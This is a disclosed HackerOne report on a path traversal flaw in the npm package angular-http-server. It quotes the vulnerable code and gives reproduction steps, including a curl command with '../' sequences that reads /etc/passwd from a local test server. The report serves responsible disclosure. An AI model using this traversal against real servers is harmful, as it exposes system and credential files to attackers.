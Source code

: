 # [angular-http-server] Path Traversal in angular-http-server.js allows to read arbitrary file from the remote server

## Report Details
- **Report ID**: 309120
- **URL**: https://hackerone.com/reports/309120
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-25T19:45:34.645Z
- **Disclosed**: 2018-03-01T22:14:10.111Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**angular-http-server** (https://www.npmjs.com/package/angular-http-server) contains Path Traversal vulnerability, which allows malicious user to read content of any file with known path.

**Module:** 

A very simple application server designed for Single Page App (SPA) developers.
(https://www.npmjs.com/package/angular-http-server)


**Description**

angular-http-server does not sanitize path in the correct way, so ```curl``` can be used to retrieve content of any file from the remote server.

Vulnerable code in ```angular-http-server.js``` file (lines 66-82):

```javascript
fs.stat(possibleFilename, function(err, stats) {
        var fileBuffer;
        if (!err && stats.isFile()) {
            fileBuffer = fs.readFileSync(possibleFilename);
            let ct = mime.lookup(possibleFilename);
            console.log(`Sending ${possibleFilename} with Content-Type ${ct}`);
            res.writeHead(200, { 'Content-Type': ct });

        } else {
            console.log("Route %s, replacing with index.html", possibleFilename);
            fileBuffer = returnDistFile();
            res.writeHead(200, { 'Content-Type': 'text/html' });
        }

        res.write(fileBuffer);
        res.end();
    });
```

File with ```possibleFilename``` name is read and send with guessed mime type. No path or allowed mime type validation is implemented - if it's possible to read the file, code just does it.


## Steps To Reproduce:

- install ```angular-http-server```

```
$ npm install angular-http-server
```

- create static ```index.html``` file (required as starting point of an app:

```html
<html>

<head>
    <meta charset="utf8">
    <title>Index HTML</title>
</head>

<body>
    <div>
        <p>This is index.html :)</p>
    </div>
</body>

</html>
```

- run server in the same folder where ```index.html``` was created:

```
$ angular-http-server --path ./
```

- open the browser and go to ```127.0.0.1:8080``` You should see HTML output.

- from the terminal, execute folloiwng command (please adjust numbers of ../ to your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../etc/passwd
```

You should see the content of ```/etc/passwd``` file:

{F257351}

Also, in the ```angular-http-server``` log there is information about mime type of the file (```application/octet-stream```):

```
$ ./node_modules/angular-http-server/angular-http-server.js --path ./
Path specified: ./
Using index.html
Listening on 8080
Sending ../../../../../etc/passwd with Content-Type application/octet-stream

```



## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- curl 7.54.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows malicious user to read content of any file on the machine where angular-http-server is running.

This might expose vectors to attack system with Remote Code Execution, reveals files with usernames and passwords and many other possibilites.

## Attachments
- 1.png
